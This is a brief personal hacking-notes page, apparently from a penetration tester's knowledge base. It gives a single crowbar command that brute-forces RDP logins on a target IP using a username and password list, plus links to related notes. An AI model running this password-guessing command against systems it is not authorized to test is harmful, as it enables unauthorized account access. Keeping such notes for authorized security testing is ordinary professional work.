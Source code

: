 # crowbar brute force RDP
```bash
crowbar -b rdp -n 1 -s $IP/32 -u username -C ./passwords
```

# References
- [20221003150780](/zet/20221003150780/) crowbar
- [20221003150778](/zet/20221003150778/) crowbar brute force RDP active directory domain joined
- ~/kb/hacking/commands/crowbar.md

Tags:
    #assorted

